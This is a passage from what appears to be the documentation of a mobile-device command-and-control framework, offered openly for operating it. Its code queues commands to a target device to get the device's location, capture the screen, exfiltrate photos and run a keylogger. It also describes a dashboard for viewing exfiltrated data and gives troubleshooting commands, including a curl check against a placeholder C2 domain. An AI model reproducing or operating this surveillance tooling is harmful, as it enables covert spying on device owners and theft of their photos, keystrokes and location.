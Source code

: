 ```python
    
    # Get location
    await client.queue_command(device_id, 'get_location')
    
    # Capture screenshot
    await client.queue_command(device_id, 'capture_screen')
    
    # Exfiltrate photos
    await client.queue_command(device_id, 'collect_photos')
    
    # Start keylogger
    await client.queue_command(device_id, 'start_keylog', {'duration': 7200})
    
    # Monitor devices
    await client.monitor_devices()

asyncio.run(manage_devices())
```

### Web Dashboard (Optional)

```bash
# Start web dashboard
python3 c2_dashboard.py

# Access at: https://your-c2-domain.com:8444
# Features:
# - Device list with status
# - Command queue management
# - Exfiltrated data viewer
# - Real-time monitoring
# - Analytics and reporting
```

---

## Troubleshooting

### Device Not Registering

```bash
# Check device connectivity
ideviceinfo -u DEVICE_UDID

# Verify C2 server is running
curl https://your-c2-domain.com/health

# Check firewall rules
ufw status

# Verify SSL certificate
openssl s_client -connect your-c2-domain.com:443
```
